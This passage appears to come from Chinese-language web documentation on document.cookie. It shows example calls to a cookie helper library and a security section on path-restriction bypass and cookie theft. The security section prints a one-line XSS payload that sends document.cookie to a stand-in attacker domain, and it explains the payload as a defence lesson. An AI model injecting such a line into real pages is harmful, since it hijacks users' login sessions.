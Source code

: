 ##### 描述

返回一个这个路径所有可读的 cookie 的数组。

### 示例用法：

```js
docCookies.setItem("test0", "Hello world!");
docCookies.setItem(
  "test1",
  "Unicode test: \u00E0\u00E8\u00EC\u00F2\u00F9",
  Infinity,
);
docCookies.setItem("test2", "Hello world!", new Date(2020, 5, 12));
docCookies.setItem("test3", "Hello world!", new Date(2027, 2, 3), "/blog");
docCookies.setItem("test4", "Hello world!", "Sun, 06 Nov 2022 21:43:15 GMT");
docCookies.setItem(
  "test5",
  "Hello world!",
  "Tue, 06 Dec 2022 13:11:07 GMT",
  "/home",
);
docCookies.setItem("test6", "Hello world!", 150);
docCookies.setItem("test7", "Hello world!", 245, "/content");
docCookies.setItem("test8", "Hello world!", null, null, "example.com");
docCookies.setItem("test9", "Hello world!", null, null, null, true);
docCookies.setItem("test1;=", "Safe character test;=", Infinity);

alert(docCookies.keys().join("\n"));
alert(docCookies.getItem("test1"));
alert(docCookies.getItem("test5"));
docCookies.removeItem("test1");
docCookies.removeItem("test5", "/home");
alert(docCookies.getItem("test1"));
alert(docCookies.getItem("test5"));
alert(docCookies.getItem("unexistingCookie"));
alert(docCookies.getItem());
alert(docCookies.getItem("test1;="));
```

## 安全

路径限制并**不能**阻止从其他路径访问 cookie. 使用简单的 DOM 即可轻易地绕过限制 (比如创建一个指向限制路径的，隐藏的[iframe](/zh-CN/docs/Web/HTML/Element/iframe), 然后访问其 `contentDocument.cookie` 属性). 保护 cookie 不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用[同源策略](/zh-CN/docs/Web/Security/Same-origin_policy)保护其不被读取。

Web 应用程序通常使用 cookies 来标识用户身份及他们的登录会话。因此通过窃听这些 cookie，就可以劫持已登录用户的会话。窃听的 cookie 的常见方法包括社会工程和 XSS 攻击 -

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 属性可以阻止通过 javascript 访问 cookie，从而一定程度上遏制这类攻击。参见 [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).
